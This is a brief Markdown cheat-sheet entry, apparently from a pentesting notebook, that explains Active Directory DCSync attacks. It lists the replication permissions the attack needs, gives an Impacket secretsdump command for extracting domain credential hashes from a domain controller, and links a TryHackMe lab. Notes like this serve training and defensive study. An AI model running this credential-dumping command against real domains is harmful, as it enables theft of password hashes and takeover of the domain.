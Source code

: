 # Active Directory DC Sync Attacks

DC-Sync attack is direct attack on the DC from an account with necessary permissions to force the DC to Synchronise itself with another existent or non-existent -  permissions required:
- `ReplicatingDirectory Changes`
- `ReplicatingDirectory Changes All`
- `Replicating Directory Changes in Filtered Set`

With [[Impacket-Cheatsheet]]
```bash
secretsdump -just-dc $domain/$user@$DCipAddress
# For just ntlms 
-just-dc-ntlm 
```

[DC-Sync](https://tryhackme.com/room/credharvesting)